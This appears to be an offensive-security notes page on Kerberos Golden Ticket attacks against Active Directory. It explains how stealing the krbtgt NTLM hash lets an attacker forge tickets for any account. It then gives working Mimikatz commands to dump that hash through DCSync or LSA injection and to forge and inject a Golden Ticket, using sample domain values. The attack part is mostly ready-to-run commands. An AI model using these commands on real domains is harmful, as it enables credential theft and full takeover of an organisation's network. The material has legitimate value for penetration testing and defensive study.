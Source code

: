 # Golden Tickets

## Brief

> **Understanding Silver / Golden Tickets : https://en.hackndo.com/kerberos-silver-golden-tickets/**

> Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service(KDC).&#x20;
>
> The attacker gains control over the **domain’s KDC account** (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (**TGTs**) for any account in the Active Directory domain.&#x20;
>
> With **valid TGTs**, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).

**The NTLM hash of the krbtgt account can be obtained via :**

* DCSync (Mimikatz)
* LSA (Mimikatz)
* Hashdump (meterpreter)
* NTDS.DIT

## Attack

The **DCSync** is a mimikatz feature which will try to impersonate a domain controller and request account password information from the targeted domain controller. This technique is less noisy as it doesn’t require direct access to the domain controller or retrieving the NTDS.DIT file over the network.

```powershell
lsadump::dcsync /user:krbtgt
# Alternatively Mimikatz can retrieve the hash of the krbtgt account from the Local Security Authority (LSA) by executing Mimikatz on the domain controller.
privilege::debug
lsadump::lsa /inject /name:krbtgt
# Now once you get the previously needed information and still in mimikatz :
kerberos::golden /User:random_user /domain:domain.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500 /ptt

# cmd popup!
```
